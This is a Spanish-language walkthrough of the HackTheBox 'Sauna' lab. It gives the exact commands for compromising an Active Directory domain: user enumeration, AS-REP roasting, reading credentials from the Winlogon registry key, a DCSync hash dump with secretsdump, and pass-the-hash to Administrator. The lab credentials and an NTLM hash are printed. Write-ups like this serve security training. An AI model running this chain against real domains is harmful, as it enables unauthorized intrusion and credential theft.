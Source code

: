 ```yaml
---
title: Sauna - Write Up (HTB) ❤
author: sha16
categories: [HackTheBox, Active Directory]
tags: [AS-REP Roasting, Abusing DCSync, Pass-the-hash (PtH), Windows]
---
```


Buenas a tod@s, el día de hoy les traigo un `write-up` de la máquina `Sauna` de `HackTheBox`.  

![Untitled](/assets/img/htb/machines/Sauna/Untitled.png)

Como en cada `write-up`, lo primero hacemos es lanzar un escaneo de puertos con `nmap` con el objetivo de identificar potenciales vías de ataque. 

Como podrán ver a continuación, se específica el parámetro `-sS` con el objetivo de que el escaneo sea vía `TCP SYNC`, lo que de cierto modo me permitirá agilizarlo, debido a que no hay `Three-Way-HandShake` como en `TCP`.

Lo otro es que se configura el `--min-rate` en `3000` con la idea de no enviar una cantidad menor a `3000` paquetes por segundo.

**Advertencia:** No aconsejo lanzar este escaneo en entornos productivos debido a que es ultra ruidoso y agresivo. En este caso lo estoy lanzando en un entorno controlado de `HackTheBox`.

```bash
nmap -v -sS --min-rate 3000 -n -Pn -p- 10.10.10.175 -oG tcp_ports.txt
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%201.png)

En el resultado del escaneo, se identifican varios servicios de interés, entre ellos: WinRPC, SMB, LDAP, WinRM y Kerberos. Sin embargo, ya con sólo ver al servicio `Kerberos`, podemos deducir que estamos ante un entorno de *Active Directory*. Por lo que ya podemos saber más o menos cómo enforcar nuestra estrategia de ataque y enumeración.

```bash
nmap -v -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49689,49696 10.10.10.175 -v port_scan.txt
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%202.png)

Una vez entendemos a rasgos generales, ante qué nos enfrentamos, revisamos la aplicación web que se encuentra corriendo en el puerto `80/http`.

En dicho servicio existe un *landing page*, en el endpoint `about.html` donde se listan los nombres y apellidos de los miembros del equipo. 

![Untitled](/assets/img/htb/machines/Sauna/Untitled%203.png)

En base a esto, creamos el siguiente diccionario con potenciales nombres de usuarios que se encuentran registrados en el dominio.

![Untitled](/assets/img/htb/machines/Sauna/Untitled%204.png)

Hecho esto, con la herramienta `kerbrute` validamos si es que alguno de estos usuarios se encuentra registrado en el dominio. 

```bash
kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```

Como se muestra en la imagen, la herramienta `kerbrute` permite identificar al usuario `FSmith` registrado en el dominio.

![Untitled](/assets/img/htb/machines/Sauna/Untitled%205.png)

Teniendo dicho nombre de usuario, ejecutamos un ataque `AS-REPRoasting` con la herramienta `impacket-GetNPUsers`.

En la imagen a continuación, se puede cómo es posible solicitar el `Ticket Granting Ticket (TGT)` del usuario, enviando una solicitud `KRB_AS_REQ` al `Key Distribution Center (KDC)` de `Kerberos`. Este servicio responde correctamente al atacante con un mensaje `KRB_AS_REP`, cual contiene el `TGT`.

Esto ocurre debido a que la cuenta del usuario tiene configurado el privilegio `UF_DONT_REQUIRE_PREAUTH`, lo cual permite solicitar el `TGT` sin previa autenticación.

```bash
impacket-GetNPUsers -no-pass -usersfile user.txt egotistical-bank.local/
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%206.png)

Como mencionamos en el post anterior, es posible crackear un `Ticket Granting Ticket` debido a que parte de este se encuentra cifrado con la contraseña del usuario. 

Probando un ataque de fuerza bruta con la herramienta `john`, logramos obtener la contraseña del usuario `FSmith`.

![Untitled](/assets/img/htb/machines/Sauna/Untitled%207.png)

Como se muestra a continuación, dicha credencial es validada con `crackmapexec` sobre el servicio `WinRM`, con lo cual comprobamos que el usuario pertenece al grupo `Remote Management Users`. Esto significa que dicho usuario se puede conectar a la terminal del servidor y ejecutar comandos. 

Para aprovecharnos de dicho grupo utilizamos la herramienta `evil-winrm`, la cual nos permite emular el comportamiento de una terminal `PowerShell` y acceder al servidor de manera directa.

![Untitled](/assets/img/htb/machines/Sauna/Untitled%208.png)

Enumerando a los usuarios del dominio, identificamos a `svc_loanmgr`.

![Untitled](/assets/img/htb/machines/Sauna/Untitled%209.png)

Dado esto, revisando las credenciales almacenadas en el `Winlogon` se identifica una contraseña por defecto.

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2010.png)

Esta contraseña es probada sobre el servicio SMB con el usuario `svc_loanmgr` la cual resulta ser valida. 

```bash
crackmapexec smb 'egotistical-bank.local' -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2011.png)

Posterior a esto, lanzamos la herramienta `bloodhound-python` con el objetivo de enumerar gran parte de los privilegios y configuraciones habilitadas entre los objetos del *Active Directory*.

```bash
bloodhound-python -u 'fsmith' -p 'Thestrokes23' -d egotistical-bank.local -ns 10.10.10.175 -c all
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2012.png)

Recopilando información sobre los privilegios de cada cuenta, identificamos que el usuario `svc_loanmgr` tiene capacidad `DCSync` sobre el dominio, lo cual significa que este puede solicitar los hashes `NTLM` de los usuarios. 

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2013.png)

Sabiendo esto, con la herramienta `impacket-secretsdump` solicitamos los hashes `NTLM` de los usuarios del dominio, a partir de las credenciales de `svc_loanmgr`. 

```bash
impacket-secretsdump 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2014.png)

Posterior a esto, tenemos dos alternativas: 

1. Ejecutar un *Pass-the-hash attack* y engañar al sistema de autenticación con la herramienta `impacket-psexec`, o `wmiexec`. 
2. Abusar de `WinRM` con la herramienta `evil-winrm` y conectarnos directamente a una terminal del servidor. Ambas opciones son válidas para obtener una terminal con el usuario `Administrator`. 

En este caso, el primero que probamos es el *Pass-the-hash*, con la herramienta `impacket-psexec`, el cual funciona exitosamente como se muestra en imagen.

```bash
impacket-psexec -hashes ':823452073d75b9d1cf70ebdf86c7f98e' 'egotistical-bank.local/Administrator@10.10.10.175'
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2015.png)

La segunda opción de igual forma funciona y permite obtener control total del servidor.

```bash
evil-winrm -i egotistical-bank.local -u 'Administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'
```

![Untitled](/assets/img/htb/machines/Sauna/Untitled%2016.png)